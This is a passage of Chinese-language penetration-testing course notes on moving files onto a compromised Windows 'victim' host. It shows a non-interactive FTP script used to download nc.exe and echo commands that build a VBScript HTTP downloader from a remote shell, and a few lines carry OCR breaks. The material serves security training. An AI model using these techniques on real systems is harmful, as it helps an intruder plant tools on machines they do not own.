 我们已经在Kali机器上安装并配置了Pure FTPd，但我们将重新启动它以确保服务可用：

```
sudo systemctl restart pure-ftpd
```

命令文件以open命令开头，该命令启动到指定IP地址的FTP连接。接下来，脚本将使用用户命令验证为offsec，并提供密码soft98。此时，我们应该有一个成功验证的FTP连接，我们可以编写传输文件所需的命令脚本。

我们将使用bin请求二进制文件传输，并使用bye命令发出关闭连接的GET请求：

![image.png](https://cdn.nlark.com/yuque/0/2020/png/2398693/1606226663041-b68e2dd2-39a4-408a-adea-58e0957a9306.png)

我们现在可以使用命令列表启动FTP会话，这将有效地使交互式会话成为非交互式会话。为此，我们将发出以下FTP命令：

```
ftp -v -n -s:ftp.txt
```

在上面的清单中，我们使用-v来抑制任何返回的输出，-n用于禁止自动登录，使用-s来指示命令文件的名称。

当ftp命令运行时，我们的下载应该已经执行，并且nc.exe文件应出现在当前目录中：

![image.png](https://cdn.nlark.com/yuque/0/2020/png/2398693/1606226731585-3ace5d88-5482-4c4b-af8d-12fa0c92d877.png)

### 使用脚本语言的Windows下载

我们可以利用vbscript（在windowsxp2003中）和PowerShell（在windows7 2008及更高版本中）等脚本引擎将文件下载到我们的受害者机器上。例如，以下一组非交互式回显命令,当粘贴到远程shell中时，将写出一个充当简单HTTP下载器的脚本：

```
echo strUrl = WScript.Arguments.Item(0) > wget.vbs
echo StrFile = WScript.Arguments.Item(1) >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs
echo Dim http, varByteArray, strData, strBuffer, lngCounter, fs, ts >> wget.vbs
echo Err.Clear >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wge t.vbs
echo If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget. vbs
echo If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs
echo http.Open "GET", strURL, False >> wget.vbs
echo http.Send >> wget.vbs
echo varByteArray = http.ResponseBody >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs
echo Set ts = fs.CreateTextFile(StrFile, True) >> wget.vbs
echo strData = "" >> wget.vbs
echo strBuffer = "" >> wget.vbs
echo For lngCounter = 0 to UBound(varByteArray) >> wget.vbs
echo ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1, 1))) >> wget.vbs
echo Next >> wget.vbs
echo ts.Close >> wget.vbs
```
